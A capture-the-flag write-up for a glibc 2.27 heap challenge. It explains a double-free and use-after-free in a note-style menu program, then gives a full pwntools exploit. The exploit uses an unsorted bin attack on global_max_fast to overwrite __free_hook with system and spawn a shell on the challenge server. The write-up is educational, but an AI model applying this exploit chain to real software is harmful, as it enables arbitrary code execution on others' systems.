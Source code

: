 Here we have a heap challenge,

base on libc-2.27.

All the protections are on.

The challenge has the traditionnal add, view, edit, delete menu..

You can allocate a maximum of 5 blocs, of size up to 0x10000 bytes.

The free function, does not zero pointers after free, and does not check if the block is already freed , so we have a double free..

The Show & Edit functions does not check if the block is already freed, so you have an UAF vulnerability also...

Seems easy, like this, but the all the allocations are processed via a malloc function that checks if the returned bloc address,

are in a range from the beginning of the heap, to 0x600000000000...

So no tcache poisonning, or any simple attack that will return us a block, in libc, or in .bss..

The solution was a unsorted bin attack on global_max_fast,

where the free of the corrupted block, will overwrite __free_hook,   with libc system funtion address.


```
from pwn import *
#context.terminal = ['lxterminal', '--title=GDB-Pwn', '--geometry=128x52', '-e']
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
#context.log_level = 'error'

host, port = "use-after-freedom.hsc.tf", "1337"
filename = "use_after_freedom"
elf = ELF(filename)
context.arch = 'amd64'

# globals
prog_base = 0
heap_base = 0
libc_base = 0

libc = ELF('./libc.so.6')

def getConn():
   return process(filename) if not args.REMOTE else remote(host, port)


# for debugging read actual mappings values to prog_base, heap_base, libc_base... should be correct 99% of the time
def get_BASES(proc):
    global prog_base
    global libc_base
    global heap_base
    memory_map = open("/proc/{}/maps".format(proc.pid),"rb").readlines()
    i = 0
    while (not b'r--' in memory_map[i]) and (not b'r-x' in memory_map[i]) and (filename in memory_map[i]):
      i += 1
    prog_base = int(memory_map[i].split(b"-")[0],16)
    while not b'[heap]' in memory_map[i]:
      i += 1
    heap_base = int(memory_map[i].split(b"-")[0],16)
    while not (b'r--' in memory_map[i]) and (b'libc-' in memory_map[i]):
      i += 1
    libc_base = int(memory_map[i+1].split(b"-")[0],16)


def debug(bp):
    script = "source ~/gdb.plugins/gef/gef.py\n"
    get_BASES(p)
    libc.address = libc_base
    for x in bp:
        script += "b *0x%x\n"%(prog_base+x)
#    script += 'awatch *{:#x}\n'.format(libc.symbols['__free_hook'])
    script += 'directory /usr/src/glibc/glibc-2.27\n'
    script += "c\n"

    gdb.attach(p,gdbscript=script)

def add(size, data):
  p.sendlineafter('> ', '1')
  p.sendlineafter('> ', str(size))
  p.sendafter('> ', data)

def free(index):
  p.sendlineafter('> ', '2')
  p.sendlineafter('> ', str(index))

def show(index):
  p.sendlineafter('> ', '4')
  p.sendlineafter('> ', str(index))

def edit(index,data):
  p.sendlineafter('> ', '3')
  p.sendlineafter('> ', str(index))
  p.sendafter('> ', data)

p = getConn()
if not args.REMOTE and args.GDB:
	debug([0xe05])

def get_BASES(proc):
    global prog_base
    global libc_base
    global heap_base
    memory_map = open("/proc/{}/maps".format(proc.pid),"rb").readlines()
    i = 0
    while not '[heap]' in memory_map:
      i = i + 1
    heap_base = int(memory_map[i].split("-")[0],16)
    libc_base = int(memory_map[i+1].split("-")[0],16)

if args.GDB:
  print('prog base: {:#x}'.format(prog_base))
  print('heap base: {:#x}'.format(heap_base))
  low = (heap_base+0x10) & 0xffff
  libc.address = libc_base
  print('libc base: {:#x}'.format(libc.address))
  low2 = (libc.symbols['_IO_2_1_stdout_']) & 0xffff
else:
  # try arbitrary values
  low = 0xc010
  low2 = 0x6760

add(0x3940, "A")
add(0x200, "B")
free(0)
show(0)

leak = u64(p.recvline().strip() + p16(0))
log.warn("leak @ 0x%x", leak)

# global_max_fast
libc.address = leak - 0x3ebca0
log.warn("Libc base @ 0x%x", libc.address)

free(1)
edit(1, b"M"*8)
show(1)

p.recvuntil(b"M"*8)
heap = u64(p.recvline().strip() + p16(0))
log.warn("Heap leak @ 0x%x", heap)

# overwrite global_max_fast
edit(0, p64(0) + p64(libc.address + 0x3ed940 - 0x10))
add(0x3940, "Unsorted bin attack!")

free(2)

# overwrite
edit(2, p64(libc.symbols['system']))
add(0x3940, "/bin/sh")
# execute system('/bin/sh')
free(3)




p.interactive()
```

*nobodyisnobody still pwning things...
*

